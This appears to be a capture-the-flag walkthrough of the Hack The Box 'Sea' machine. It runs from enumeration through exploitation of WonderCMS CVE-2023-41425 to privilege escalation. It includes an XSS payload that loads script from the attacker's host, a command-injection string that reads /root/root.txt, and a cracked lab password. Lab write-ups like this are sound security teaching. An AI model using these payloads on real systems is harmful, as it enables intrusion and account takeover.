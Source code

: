 # About
`Sea` is an Easy Difficulty Linux machine that features [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425) in WonderCMS, a cross-site scripting (XSS) vulnerability that can be used to upload a malicious module, allowing access to the system. The privilege escalation features extracting and cracking a password from WonderCMS's database file, then exploiting a command injection in custom-built system monitoring software, giving us root access. 

# Enumeration
```
nmap -A -T4 -p- 10.129.62.226
sudo autorecon 10.129.62.226
```
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```


## Web
```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.62.226:80/FUZZ

gobuster dir -u http://10.129.62.226:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
```
/home                 (Status: 200) [Size: 3695]
/0                    (Status: 200) [Size: 3695]
/themes               (Status: 301) [Size: 236] [--> http://10.129.62.226/themes/]
/data                 (Status: 301) [Size: 234] [--> http://10.129.62.226/data/]
/plugins              (Status: 301) [Size: 237] [--> http://10.129.62.226/plugins/]
/messages             (Status: 301) [Size: 238] [--> http://10.129.62.226/messages/]
/404                  (Status: 200) [Size: 3386]
```

We know some of the directories, lets try to enumerate some of these sub directories as it appears we cannot hit the top levels of any of these.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.62.226:80/themes/FUZZ -recursion -recursion-depth 1 -v
```

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.62.226:80/themes/bike/FUZZ
```
```
img                     [Status: 301, Size: 245, Words: 14, Lines: 8, Duration: 47ms]
home                    [Status: 200, Size: 3695, Words: 582, Lines: 87, Duration: 51ms]
                        [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 57ms]
version                 [Status: 200, Size: 6, Words: 1, Lines: 2, Duration: 39ms]
css                     [Status: 301, Size: 245, Words: 14, Lines: 8, Duration: 44ms]
summary                 [Status: 200, Size: 66, Words: 9, Lines: 2, Duration: 47ms]
404                     [Status: 200, Size: 3386, Words: 530, Lines: 85, Duration: 49ms]
LICENSE                 [Status: 200, Size: 1067, Words: 152, Lines: 22, Duration: 43ms]
%20                     [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 44ms]
```
We have found some files under the themes/bike directory lets see if we can access any of theme to get some more information about the underlying system.

![](Images/Pasted%20image%2020250502084457.png)

In the `LICENSE` file we get a theme `turboblack` which leads us to the CMS `WonderCMS`

`CVE-2023-41425`

![](Images/Pasted%20image%2020250502084747.png)

# Exploit CVE-2023-41425

Download the exploit [Here](https://github.com/prodigiousMind/CVE-2023-41425/blob/main/exploit.py)

It takes 3 arguments:
    URL: where WonderCMS is installed (no need to know the password)
    IP: attacker's Machine IP
    Port No: attacker's Machine PORT

```
python3 WonderCMS.py http://sea.htb/index.php?page=LoginURL 10.10.14.251 4444
```

Submit the following through the contact.php page for payload

```
http://sea.htb/index.php?page=LoginURL"></form><script+src="http://10.10.14.251:8000/xss.js"></script><form+action="
```

The destination server grabs out malicious js file.

![](Images/Pasted%20image%2020250502090722.png)


This POC did not end up working, I ended up following the writeup [Here](https://0xdf.gitlab.io/2024/12/21/htb-sea.html#shell-as-www-data)to get the initial shell to practice Linux priv esc.

# Post-Exploitation

Upon getting the first shell I began by starting some generic file enumeration of the web root folder.

![](Images/Pasted%20image%2020250502094332.png)

Within these files was a database.js file that looked promising. Within this file appears to be a user hash.

```
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2025\/05\/02 13:36:33": "127.0.0.1",
            "2025\/05\/02 13:26:02": "127.0.0.1",
            "2025\/05\/02 13:24:32": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1",
            "2024\/07\/31 15:15:10": "127.0.0.1"
        },

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```

Lets see what we can do with hashcat. After some quick google searching this is a Blowfish or bcrypt hash `-m 3200` in hashcat.

![](Images/Pasted%20image%2020250502095033.png)

We get the password `mychemicalromance` from the hash. I need to find a user to go along with that hash, we have access to read `/etc/passwd` so I am going to grab some users to test.

```
amay:mychemicalromance
```

With the found credentials we were able to establish an SSH session as amay. We can now grab the user flag and move on.

![](Images/Pasted%20image%2020250502095418.png)

After doing some enumeration we can find that the server is listening on a couple of ports from localhost such as tcp:8080

![](Images/Pasted%20image%2020250502095507.png)

Lets forward the port to our local machine using ssh.

```
ssh amay@sea.htb -L 8080:127.0.0.1:8080
```

Upon navigating to `localhost:8080` we are greeted by a default http authentication that can be passed with the amay credentials.

![](Images/Pasted%20image%2020250502095850.png)

My first gut instinct is to use the Analyze Log file to get LFI to read the root flag. Lets try that first

![](Images/Pasted%20image%2020250502100028.png)

Adjusting the path to relative path to try and read flag.txt did not seem to work

![](Images/Pasted%20image%2020250502100228.png)

Trying to read the absolute path of the `user.txt` also did not work so I don't think we are looking for lfi, so what about command injection

![](Images/Pasted%20image%2020250502100330.png)

We were able to get command injection by escaping and adding our command followed by commenting out the rest of the commands.

![](Images/Pasted%20image%2020250502100652.png)

Now lets see if we can get that root flag now.
```
log_file=;cat+/root/root.txt+#&analyze_log=
```

![](Images/Pasted%20image%2020250502100904.png)


